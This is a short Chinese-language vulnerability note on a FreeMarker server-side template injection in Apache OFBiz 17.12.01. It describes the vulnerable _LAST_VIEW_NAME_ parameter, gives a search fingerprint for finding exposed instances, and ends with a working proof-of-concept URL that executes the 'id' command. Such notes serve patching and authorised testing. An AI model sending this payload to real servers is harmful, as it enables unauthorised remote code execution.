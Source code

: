 # Apache OfBiz 服务器端模板注入 SSTI

# Apache OfBiz 服务器端模板注入 SSTI

## 漏洞描述

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-067-apache_ofbiz

## 漏洞影响

```
Apache OfBiz 17.12.01
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 漏洞复现

服务器端模板注入 renderLookupField

从不可信数据流request.getParameter("`_LAST_VIEW_NAME_`")给一个FreeMarker的宏调用定义。具有特权以渲染任何包含查找字段的页面的攻击者将能够通过发送有效载荷来执行任意系统命令。

poc：

```
https://localhost:8443/ordermgr/control/FindQuote?_LAST_VIEW_NAME_=%22%2F%3E%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22id%22%29%7D%3CFOO
```


